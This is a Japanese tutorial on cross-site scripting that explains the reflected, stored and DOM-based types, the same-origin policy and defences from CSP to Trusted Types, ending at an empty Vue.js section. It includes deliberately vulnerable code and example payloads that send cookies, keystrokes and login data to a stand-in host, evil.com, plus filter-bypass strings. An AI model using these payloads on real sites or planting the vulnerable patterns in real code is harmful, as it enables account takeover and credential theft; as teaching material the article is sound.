





# XSS（Cross-Site Scripting）— Webセキュリティ最大の脅威を理解する

## 1. 背景と動機

### 1.1 Webが本質的に抱える脆弱性

Webブラウザは、HTMLドキュメントの中にJavaScriptコードを埋め込み、動的に実行するという設計を採用している。この設計はWebを静的な文書閲覧システムから対話的なアプリケーションプラットフォームへと進化させた原動力であるが、同時に根本的なセキュリティ上の問題を生み出した。「信頼できるコードと信頼できないコードの区別がつかない」という問題である。

ブラウザがHTMLドキュメントを解析する際、`<script>` タグの中に記述されたJavaScriptは、そのページの提供元（オリジン）の権限で実行される。サーバーが意図的に埋め込んだスクリプトも、攻撃者が巧妙に注入したスクリプトも、ブラウザにとっては区別がつかない。この「区別の不在」こそが、Cross-Site Scripting（XSS）という脆弱性の本質である。

### 1.2 XSSの歴史的位置づけ

XSSは1990年代後半から認識されていたが、その名称が広く知られるようになったのは2000年代初頭である。OWASP（Open Web Application Security Project）が発表するWebアプリケーション脆弱性のトップ10リストにおいて、XSSは長年にわたり上位に位置し続けている。2000年代前半にはSQL Injectionと並ぶ二大脆弱性として認識され、2025年現在に至るまで、発見件数・影響範囲の両面で最も深刻なWeb脆弱性の一つであり続けている。

名称について補足すると、「Cross-Site Scripting」の略称としては本来「CSS」が自然であるが、Cascading Style Sheets（CSS）との混同を避けるために「XSS」と表記される。

### 1.3 XSSが解決すべき問題

XSSの対策を理解するためには、まず「なぜXSSが起きるのか」を正確に把握する必要がある。根本的な原因は、**ユーザーからの入力データが、適切な処理（サニタイズ・エスケープ）なしにHTMLドキュメントに埋め込まれること**にある。

Webアプリケーションは、ユーザーからの入力を受け取り、その入力を含むHTMLを生成してレスポンスとして返す。検索クエリ、掲示板への投稿、プロフィール情報、URLパラメータ——これらすべてがXSS攻撃の注入ポイント（injection point）となり得る。

```
ユーザー入力 → サーバー処理 → HTMLに埋め込み → ブラウザがレンダリング・スクリプト実行
                                ↑
                        ここで適切な処理がないとXSSが成立
```

## 2. XSSの三つの類型

XSSは攻撃ベクターと動作メカニズムによって三つの類型に分類される。

### 2.1 Reflected XSS（反射型XSS）

Reflected XSSは、攻撃者が悪意あるスクリプトを含むURLをユーザーに踏ませることで成立する攻撃である。サーバーはリクエストに含まれるパラメータをそのままレスポンスに「反射」（reflect）させ、ブラウザがそのスクリプトを実行する。



#### 脆弱なコードの例

以下は、検索機能においてReflected XSSが発生する典型的なパターンである。

```python
# VULNERABLE: Do not use this code
from flask import Flask, request

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    # User input is directly embedded into HTML without escaping
    return f'''
    <html>
    <body>
        <h1>Search Results</h1>
        <p>Results for: {query}</p>
    </body>
    </html>
    '''
```

攻撃者が以下のURLを構成した場合：

```
https://example.com/search?q=<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```

サーバーは次のHTMLを返す：

```html
<html>
<body>
    <h1>Search Results</h1>
    <p>Results for: <script>document.location='https://evil.com/steal?cookie='+document.cookie</script></p>
</body>
</html>
```

ブラウザはこのHTMLを解析し、`<script>` タグの内容をJavaScriptとして実行する。結果として、被害者のCookie情報が攻撃者のサーバーに送信される。

#### 安全なコードの例

```python
# SECURE: Proper output encoding
from flask import Flask, request
from markupsafe import escape

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    # HTML-escape user input before embedding
    safe_query = escape(query)
    return f'''
    <html>
    <body>
        <h1>Search Results</h1>
        <p>Results for: {safe_query}</p>
    </body>
    </html>
    '''
```

`escape()` 関数により、`<` は `&lt;`、`>` は `&gt;`、`"` は `&quot;` に変換される。これにより、ユーザー入力はHTMLタグとしてではなく、テキストとしてレンダリングされる。

### 2.2 Stored XSS（格納型XSS）

Stored XSSは、攻撃者が悪意あるスクリプトをサーバー側のデータベースに保存させ、そのデータを閲覧する他のユーザーのブラウザ上でスクリプトが実行される攻撃である。Reflected XSSがURLを踏ませる必要があるのに対し、Stored XSSは一度保存されれば、該当ページを閲覧するすべてのユーザーに影響する。そのため、**三つの類型の中で最も危険度が高い**。



#### 脆弱なコードの例

```javascript
// VULNERABLE: Do not use this code
app.get('/comments', async (req, res) => {
  const comments = await db.query('SELECT * FROM comments ORDER BY created_at DESC');

  let html = '<html><body><h1>Comments</h1>';
  for (const comment of comments) {
    // User-submitted content is directly embedded without escaping
    html += `<div class="comment">
      <strong>${comment.username}</strong>
      <p>${comment.body}</p>
    </div>`;
  }
  html += '</body></html>';
  res.send(html);
});
```

攻撃者が以下の内容をコメントとして投稿した場合：

```

```

この投稿はデータベースに保存され、コメント一覧ページを閲覧するすべてのユーザーのブラウザ上でスクリプトが実行される。`<script>` タグを使わずとも、`` タグの `onerror` イベントハンドラなど、HTMLの多くの属性を通じてJavaScript実行が可能である点に注意が必要である。

#### 安全なコードの例

```javascript
// SECURE: Use a template engine with auto-escaping
const express = require('express');
const app = express();

// Using EJS with auto-escaping (<%=  %> escapes by default)
app.set('view engine', 'ejs');

app.get('/comments', async (req, res) => {
  const comments = await db.query('SELECT * FROM comments ORDER BY created_at DESC');
  // Template engine handles escaping automatically
  res.render('comments', { comments });
});
```

```html
<!-- comments.ejs: <%= %> performs HTML escaping automatically -->
<html>
<body>
  <h1>Comments</h1>
  <% comments.forEach(comment => { %>
    <div class="comment">
      <strong><%= comment.username %></strong>
      <p><%= comment.body %></p>
    </div>
  <% }); %>
</body>
</html>
```

### 2.3 DOM-based XSS（DOM型XSS）

DOM-based XSSは、サーバーを経由せず、クライアントサイドのJavaScriptが悪意あるデータを処理する過程でDOMを操作し、スクリプトが実行される攻撃である。サーバーが返すHTMLには攻撃コードが含まれず、ブラウザ上のJavaScript処理の中で脆弱性が生じる点が他の二つの類型と根本的に異なる。



#### 脆弱なコードの例

```html
<!-- VULNERABLE: Do not use this code -->
<html>
<body>
  <div id="greeting"></div>
  <script>
    // Read user input from URL fragment
    const name = decodeURIComponent(location.hash.substring(1));
    // Directly write to DOM using innerHTML — dangerous!
    document.getElementById('greeting').innerHTML = 'Hello, ' + name + '!';
  </script>
</body>
</html>
```

攻撃者が以下のURLを構成した場合：

```
https://example.com/page#
```

URLフラグメント（`#` 以降）はサーバーに送信されないため、サーバーサイドのWAF（Web Application Firewall）や入力検証では検出できない。クライアントサイドのJavaScriptが `location.hash` からフラグメントを取得し、`innerHTML` を通じてDOMに挿入することで攻撃が成立する。

#### ソース（Source）とシンク（Sink）

DOM-based XSSを理解する上で重要な概念が「ソース」と「シンク」である。

**ソース（Source）**: 攻撃者が制御可能なデータの入力元

| ソース | 説明 |
|--------|------|
| `location.hash` | URLフラグメント |
| `location.search` | クエリ文字列 |
| `location.href` | URL全体 |
| `document.referrer` | リファラURL |
| `document.cookie` | Cookie値（他の脆弱性経由） |
| `window.name` | ウィンドウ名 |
| `postMessage` のデータ | クロスオリジンメッセージ |
| Web Storageの値 | `localStorage`, `sessionStorage` |

**シンク（Sink）**: データがDOMに反映されスクリプト実行につながる箇所

| シンク | 危険度 | 説明 |
|--------|--------|------|
| `innerHTML` | 高 | HTMLとして解釈される |
| `outerHTML` | 高 | 要素自体を置き換え |
| `document.write()` | 高 | ドキュメントストリームに書き込み |
| `eval()` | 極めて高 | 文字列をJavaScriptとして実行 |
| `setTimeout(string)` | 高 | 文字列をJavaScriptとして実行 |
| `element.setAttribute()` | 中 | イベントハンドラ属性に注意 |
| `element.src` | 中 | `javascript:` スキームに注意 |

#### 安全なコードの例

```html
<!-- SECURE: Use textContent instead of innerHTML -->
<html>
<body>
  <div id="greeting"></div>
  <script>
    const name = decodeURIComponent(location.hash.substring(1));
    // textContent treats input as plain text, not HTML
    document.getElementById('greeting').textContent = 'Hello, ' + name + '!';
  </script>
</body>
</html>
```

`textContent` はHTMLとして解釈せず、純粋なテキストとしてDOMに挿入するため、スクリプトの注入は不可能になる。

### 2.4 三類型の比較

| 特性 | Reflected XSS | Stored XSS | DOM-based XSS |
|------|--------------|------------|---------------|
| 攻撃ペイロードの保存 | 保存されない（URL経由） | サーバーに保存される | 保存されない |
| サーバー関与 | あり（レスポンスに反映） | あり（DBから取得して反映） | なし（クライアントのみ） |
| 被害範囲 | URLを踏んだユーザー | ページを閲覧した全ユーザー | URLを踏んだユーザー |
| サーバーサイドで検出可能か | 可能 | 可能 | 困難 |
| WAFで防御可能か | 部分的に可能 | 部分的に可能 | 困難 |
| 危険度 | 中〜高 | 高 | 中〜高 |

## 3. XSS攻撃の影響

XSSは「`alert(1)` が出るだけ」の脆弱性ではない。攻撃者がユーザーのブラウザ上で任意のJavaScriptを実行できるということは、そのユーザーがWebアプリケーション上で実行可能なあらゆる操作を、攻撃者が代行できることを意味する。

### 3.1 セッションハイジャック（Cookie窃取）

最も古典的かつ破壊的な攻撃パターンである。ユーザーのセッションCookieを窃取し、攻撃者がそのユーザーになりすます。

```javascript
// Attack: Send session cookie to attacker's server
new Image().src = 'https://evil.com/steal?cookie=' + document.cookie;
```

この一行で、`HttpOnly` 属性が設定されていないCookieはすべて攻撃者のサーバーに送信される。攻撃者はこのCookieを使って被害者のセッションを乗っ取り、パスワード変更、個人情報の閲覧、不正な操作の実行が可能となる。

### 3.2 キーロギング

XSSを通じてキーロガーを仕込むことで、被害者がそのページ上で入力するすべてのキーストロークを記録・送信できる。

```javascript
// Attack: Log all keystrokes and send to attacker
document.addEventListener('keypress', function(e) {
  fetch('https://evil.com/keylog', {
    method: 'POST',
    body: JSON.stringify({
      key: e.key,
      timestamp: Date.now(),
      url: location.href
    })
  });
});
```

パスワード入力フォーム、クレジットカード番号、個人情報——ユーザーが入力するすべての情報が攻撃者に漏洩する。

### 3.3 フィッシング（偽ログインフォーム）

XSSを利用してページ上に偽のログインフォームを表示し、ユーザーの認証情報を窃取する。URLは正規のドメインのままであるため、ユーザーはフィッシングであることに気づきにくい。

```javascript
// Attack: Overlay a fake login form on the legitimate page
document.body.innerHTML = `
  <div style="display:flex;justify-content:center;align-items:center;height:100vh;">
    <form action="https://evil.com/phish" method="POST"
          style="padding:20px;border:1px solid #ccc;border-radius:8px;">
      <h2>Session expired. Please log in again.</h2>
      <input type="text" name="username" placeholder="Username"><br><br>
      <input type="password" name="password" placeholder="Password"><br><br>
      <button type="submit">Log In</button>
    </form>
  </div>
`;
```

### 3.4 マルウェア配布

XSSを利用して、被害者のブラウザを攻撃者が制御するマルウェア配布サイトにリダイレクトさせることも可能である。

```javascript
// Attack: Redirect to malware distribution site
window.location = 'https://evil.com/malware-download';
```

### 3.5 暗号通貨マイニング

XSSで暗号通貨マイニングスクリプトを注入し、被害者のCPUリソースを無断で使用するケースも報告されている。

### 3.6 クロスサイトリクエストの実行

XSSが成立したオリジンの権限で任意のHTTPリクエストを送信できるため、CSRF（Cross-Site Request Forgery）トークンによる保護も無効化される。攻撃者は被害者のブラウザを通じて、パスワードの変更、メールアドレスの変更、資金の送金など、あらゆる操作を実行できる。

```javascript
// Attack: Change user's email address (bypasses CSRF protection)
fetch('/account/settings', { method: 'GET' })
  .then(res => res.text())
  .then(html => {
    // Extract CSRF token from the page
    const csrfToken = html.match(/name="csrf_token" value="([^"]+)"/)[1];
    // Use the token to change the email
    fetch('/account/settings', {
      method: 'POST',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: `csrf_token=${csrfToken}&email=attacker@evil.com`
    });
  });
```

## 4. 同一オリジンポリシーとXSSの関係

### 4.1 同一オリジンポリシー（Same-Origin Policy）とは

同一オリジンポリシー（SOP）は、Webセキュリティの根幹をなすブラウザのセキュリティ機構である。あるオリジン（スキーム + ホスト + ポート）から読み込まれたスクリプトが、別のオリジンのリソースにアクセスすることを制限する。

```
https://example.com:443/path
 ^^^^   ^^^^^^^^^^^  ^^^
  |         |         |
スキーム   ホスト    ポート
          ↓
    この3要素が一致 = 同一オリジン
```

| URL A | URL B | 同一オリジンか |
|-------|-------|-------------|
| `https://example.com/a` | `https://example.com/b` | 同一 |
| `https://example.com` | `http://example.com` | 異なる（スキーム違い） |
| `https://example.com` | `https://sub.example.com` | 異なる（ホスト違い） |
| `https://example.com` | `https://example.com:8080` | 異なる（ポート違い） |

### 4.2 SOPがXSSに対して無力な理由

SOPは異なるオリジン間のアクセスを制限するが、XSSは**同一オリジン内**でスクリプトを実行する攻撃である。攻撃者が `https://example.com` のページにスクリプトを注入できた場合、そのスクリプトは `https://example.com` のオリジンの権限で動作する。つまり、SOPは正常に機能していても、XSSは成立する。

これがXSSの名称の由来でもある。攻撃者のスクリプト（別のサイトで作成されたもの）が、標的サイトのコンテキスト（オリジン）で実行されるという意味で「クロスサイト」スクリプティングと呼ばれる。SOPを「突破」するのではなく、「回避」するのがXSSの本質である。



SOPが防ぐのはあくまで**オリジンをまたいだ**直接的なアクセスである。XSSでは攻撃者のコードが被害者のオリジン内で実行されるため、SOPの保護は適用されない。

## 5. 防御メカニズム

### 5.1 出力エンコーディング（Output Encoding）

XSS対策の中で最も基本的かつ重要なのが、出力エンコーディングである。ユーザーの入力データをHTMLに埋め込む際に、HTMLとして解釈される特殊文字をエンティティに変換する。

#### HTMLコンテキストでのエスケープ

| 文字 | エンティティ | 理由 |
|------|------------|------|
| `<` | `&lt;` | タグの開始を防ぐ |
| `>` | `&gt;` | タグの終了を防ぐ |
| `&` | `&amp;` | エンティティの開始を防ぐ |
| `"` | `&quot;` | 属性値の終了を防ぐ |
| `'` | `&#x27;` | 属性値の終了を防ぐ |

#### コンテキストに応じたエンコーディング

出力エンコーディングで重要なのは、**埋め込み先のコンテキストに応じた適切なエスケープを行う**ことである。HTMLのエスケープだけでは不十分な場合がある。

```
1. HTML本文: <p>USER_INPUT</p>
   → HTMLエンティティエスケープ

2. HTML属性値: <input value="USER_INPUT">
   → HTMLエンティティエスケープ（引用符を含む）

3. JavaScript内: <script>var name = 'USER_INPUT';</script>
   → JavaScriptエスケープ（Unicode escape sequence）

4. URL内: <a href="https://example.com?q=USER_INPUT">
   → URLエンコーディング（パーセントエンコーディング）

5. CSS内: <div style="background: USER_INPUT">
   → CSSエスケープ
```

特に危険なのは、JavaScriptコンテキストへの埋め込みである。

```html
<!-- VULNERABLE: HTML escaping alone is not sufficient in JS context -->
<script>
  var username = '<%= htmlEscape(userInput) %>';
</script>
```

HTMLエスケープだけでは、`';alert(1);//` のような入力に対して十分な防御ができない場合がある。JavaScriptコンテキストでは、JavaScriptに適したエスケープ（`\x3c` などのUnicode escape sequence）を適用すべきである。

### 5.2 入力検証（Input Validation）

入力検証はXSS対策の「第一の防衛線」として機能するが、**出力エンコーディングの代替にはならない**。入力検証はあくまで多層防御（Defense in Depth）の一層として位置づけるべきである。

```python
# Input validation: reject or sanitize unexpected patterns
import re

def validate_username(username):
    # Allow only alphanumeric characters, underscores, and hyphens
    if not re.match(r'^[a-zA-Z0-9_-]{1,30}$', username):
        raise ValueError('Invalid username format')
    return username

def validate_email(email):
    # Use a well-tested email validation library
    if not re.match(r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$', email):
        raise ValueError('Invalid email format')
    return email
```

入力検証のアプローチには二つの方式がある。

**ホワイトリスト（許可リスト）方式**: 許可するパターンを明示的に定義する。上記の例のように、英数字とハイフン・アンダースコアのみ許可するなど。この方式が推奨される。

**ブラックリスト（拒否リスト）方式**: `<script>` や `onerror` などの危険なパターンを拒否する。この方式は**推奨されない**。攻撃者はエンコーディングの変換、大文字小文字の混合、難読化など、無数のバイパス手法を持っているため、ブラックリストは必ず漏れが生じる。

```javascript
// BAD: Blacklist approach — easily bypassed
function sanitize(input) {
  return input.replace(/<script>/gi, '');  // Trivially bypassed
}

// Bypasses:
// <scr<script>ipt>alert(1)</script>
// <SCRIPT>alert(1)</SCRIPT>
// 
// <svg/onload=alert(1)>
```

### 5.3 Content Security Policy（CSP）

Content Security Policy（CSP）は、ブラウザに対して「このページではどのソースからのスクリプト実行を許可するか」を指示するHTTPレスポンスヘッダーである。XSSが成功してスクリプトが注入されたとしても、CSPによってその実行を阻止できる可能性がある。

#### CSPの基本

```
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; style-src 'self' 'unsafe-inline'; img-src *;
```

| ディレクティブ | 説明 |
|-------------|------|
| `default-src` | 各ディレクティブのデフォルト値 |
| `script-src` | JavaScriptの読み込み・実行を許可するソース |
| `style-src` | CSSの読み込みを許可するソース |
| `img-src` | 画像の読み込みを許可するソース |
| `connect-src` | `fetch`, `XMLHttpRequest` 等の接続先 |
| `frame-src` | `<iframe>` の読み込み元 |
| `object-src` | `<object>`, `<embed>` の読み込み元 |
| `base-uri` | `<base>` タグで指定可能なURL |

#### 厳格なCSPの例

```
Content-Security-Policy:
  default-src 'none';
  script-src 'nonce-abc123' 'strict-dynamic';
  style-src 'self';
  img-src 'self';
  connect-src 'self';
  base-uri 'none';
  form-action 'self';
  frame-ancestors 'none';
```

`nonce` ベースのCSPでは、サーバーがリクエストごとにランダムな `nonce` 値を生成し、許可するスクリプトタグにこの `nonce` を付与する。

```html
<!-- Only scripts with the correct nonce will execute -->
<script nonce="abc123">
  // This script will execute — nonce matches CSP
  console.log('Legitimate script');
</script>

<!-- XSS-injected script will be blocked -->
<script>
  // This script will NOT execute — no nonce attribute
  alert('XSS');
</script>
```

`'strict-dynamic'` を指定すると、`nonce` 付きの信頼されたスクリプトから動的に読み込まれるスクリプトも許可される。これにより、サードパーティライブラリの動的読み込みが可能になる。

#### CSPの限界

CSPは強力な防御層であるが、万能ではない。

- **インラインイベントハンドラ**: `` のような攻撃は、`'unsafe-inline'` を許可しているCSPでは防げない
- **CSPバイパス**: `script-src` にCDNドメインを許可している場合、そのCDN上のJSONPエンドポイントやAngularJSのテンプレートインジェクション等を利用したバイパスが可能な場合がある
- **report-only モード**: 導入初期は `Content-Security-Policy-Report-Only` ヘッダーを使って、ブロックせずに違反を報告だけするモードから始めることが推奨される

### 5.4 HttpOnly Cookie

`HttpOnly` 属性をCookieに設定することで、JavaScriptから `document.cookie` を通じたアクセスを禁止できる。

```
Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict; Path=/
```

| 属性 | 効果 |
|------|------|
| `HttpOnly` | JavaScriptからのアクセスを禁止 |
| `Secure` | HTTPS通信でのみ送信 |
| `SameSite=Strict` | クロスサイトリクエストではCookieを送信しない |
| `Path=/` | 指定パス以下のリクエストでのみ送信 |

`HttpOnly` はXSSによるCookie窃取を防ぐが、XSS自体を防ぐわけではない。攻撃者は依然として、キーロギング、フィッシング、同一オリジン内でのリクエスト送信（セッションCookieはブラウザが自動的に付与する）など、Cookie窃取以外の多くの攻撃を実行できる。

### 5.5 Trusted Types

Trusted Typesは、DOM-based XSSを根本的に防止するためのブラウザAPIである。W3Cで策定が進められており、Google Chromeでは既にサポートされている。

Trusted Typesの基本的なアイデアは、`innerHTML` や `eval()` などの危険なシンクに対して、生の文字列ではなく「信頼された型（Trusted Type）」のオブジェクトのみを受け入れるよう強制することである。

```javascript
// Enable Trusted Types via CSP header:
// Content-Security-Policy: require-trusted-types-for 'script'; trusted-types myPolicy;

// Define a policy that performs sanitization
const policy = trustedTypes.createPolicy('myPolicy', {
  createHTML: (input) => {
    // Use DOMPurify or similar library for sanitization
    return DOMPurify.sanitize(input);
  },
  createScriptURL: (input) => {
    // Only allow scripts from trusted origins
    const url = new URL(input);
    if (url.origin === 'https://cdn.example.com') {
      return input;
    }
    throw new TypeError('Untrusted script URL: ' + input);
  }
});

// Usage: raw strings are rejected, only TrustedHTML is accepted
element.innerHTML = policy.createHTML(userInput);  // OK: sanitized
element.innerHTML = userInput;  // TypeError: rejected by Trusted Types
```

Trusted Typesが有効な場合、`innerHTML` に生の文字列を代入しようとするとブラウザが `TypeError` を発生させる。これにより、開発者が意図せずに危険なシンクを使用してしまうことを防止できる。

### 5.6 防御策のまとめ



XSS対策は単一の手法に依存するのではなく、多層防御の考え方で複数の防御策を組み合わせることが重要である。

| 防御策 | 防御対象 | 重要度 |
|--------|---------|--------|
| 出力エンコーディング | Reflected / Stored XSS | 最重要（必須） |
| 入力検証 | 全類型 | 重要（補助的） |
| CSP | 全類型 | 非常に重要 |
| HttpOnly Cookie | Cookie窃取 | 重要 |
| Trusted Types | DOM-based XSS | 重要（対応ブラウザで） |

## 6. フレームワークレベルの保護

### 6.1 React

Reactは、JSX内に埋め込まれる値に対してデフォルトでHTMLエスケープを適用する。これはReactの設計思想における重要なセキュリティ機能である。

```jsx
function UserGreeting({ username }) {
  // React automatically escapes the value — safe by default
  return <p>Hello, {username}!</p>;
}

// Even if username is "<script>alert(1)</script>",
// React renders it as text, not as HTML
```

Reactが内部的に行うのは、文字列をDOMに挿入する際に `textContent` を使用するか、HTMLエンティティにエスケープすることである。

ただし、Reactにも意図的にHTMLを挿入するための `dangerouslySetInnerHTML` という機能が存在する。名前の通り「危険」であり、使用時には細心の注意が必要である。

```jsx
function RichContent({ htmlContent }) {
  // DANGEROUS: bypasses React's XSS protection
  return <div dangerouslySetInnerHTML={{ __html: htmlContent }} />;
}

// If htmlContent comes from user input, this is vulnerable to XSS!
// Always sanitize with DOMPurify or similar before using:
import DOMPurify from 'dompurify';

function SafeRichContent({ htmlContent }) {
  const sanitized = DOMPurify.sanitize(htmlContent);
  return <div dangerouslySetInnerHTML={{ __html: sanitized }} />;
}
```

### 6.2 Angular

AngularもReactと同様に、テンプレートバインディング（`{{ }}` 構文）においてデフォルトでHTMLエスケープを行う。

```typescript
// Angular component
@Component({
  selector: 'app-greeting',
  template: `
    <!-- Interpolation is auto-escaped — safe by default -->
    <p>Hello, {{ username }}!</p>

    <!-- Property binding to innerHTML is sanitized by Angular -->
    <div [innerHTML]="richContent"></div>
  `
})
export class GreetingComponent {
  username = '<script>alert(1)</script>';  // Rendered as text
  richContent = '<b>Bold</b><script>alert(1)</script>';  // Script tag stripped
}
```

Angularは `[innerHTML]` バインディングに対しても組み込みのサニタイザを適用し、危険なタグやイベントハンドラを自動的に除去する。ただし、`bypassSecurityTrustHtml()` を使用すると、この保護を明示的にバイパスできる。

```typescript
// DANGEROUS: Bypasses Angular's built-in sanitizer
import { DomSanitizer } from '@angular/platform-browser';

constructor(private sanitizer: DomSanitizer) {}

getTrustedHtml(untrustedHtml: string) {
  // Only use this with already-sanitized content!
  return this.sanitizer.bypassSecurityTrustHtml(untrustedHtml);
}
```

### 6.3 Vue.js

